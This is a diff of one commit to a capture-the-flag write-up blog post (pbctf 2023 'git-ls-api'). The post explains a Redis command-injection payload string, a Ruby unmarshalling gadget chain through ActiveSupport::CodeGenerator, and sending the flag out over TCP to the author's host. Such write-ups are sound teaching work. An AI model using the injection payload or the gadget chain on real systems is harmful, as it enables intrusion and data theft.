

Before and after one commit to pwnfirstsearch/pwnfirstsearch.github.io, a Jekyll site: the page built from _posts/2023-02-19-pbctf2023-git-ls-api.md, in a window 1280 px wide. Shown: the part 686-2553 px from the top of the page at 83% size, without its empty margins (237-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix some isssues

````diff
--- a/_posts/2023-02-19-pbctf2023-git-ls-api.md
+++ b/_posts/2023-02-19-pbctf2023-git-ls-api.md
@@ -16,9 +16,9 @@ The redis command serializer assumes that it will receive a norrmal flat bytelik
 exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
            "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
             "bytesize":2
-            }}}}},"tree": [{"path":"pwnedbyPFS"}]}```
-
-Here, I'm invoking a `set` command.
+            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
+```
+The serializer will process the length of the innermost string as `2` but insert the entire string into the command. By completing the remaining fields as part of our input, then starting a new command with the `*` character, we can inject additional commands. Here, I'm invoking a `set` command. Once we have command injection, we still need some way of gaining additional control to read the flag from disk.
 
 The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that
 
@@ -30,7 +30,7 @@ The redis connector is invoked with `raw: True` for both directly controlled fie
   end
 ```
 
-Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled
+Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled.
 
 I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).
 
@@ -98,7 +98,7 @@ def apply(owner, path, line)
 end
 ```
 
-We can't invoke the `apply` method directly, but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:
+We can't invoke the `apply` method directly (as it requires three arguments), but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:
 
 ```ruby
 def execute
@@ -107,6 +107,8 @@ def execute
   end
 end
 ```
+
+From here, exploitation is simple, as we have arbitrary ruby. I chose to open a TCP connection to my host, and dump the flag out, rather than trying to inject it into the HTTP response or invoking shell commands.
 
 Here's my code to generate the payload:
 
````
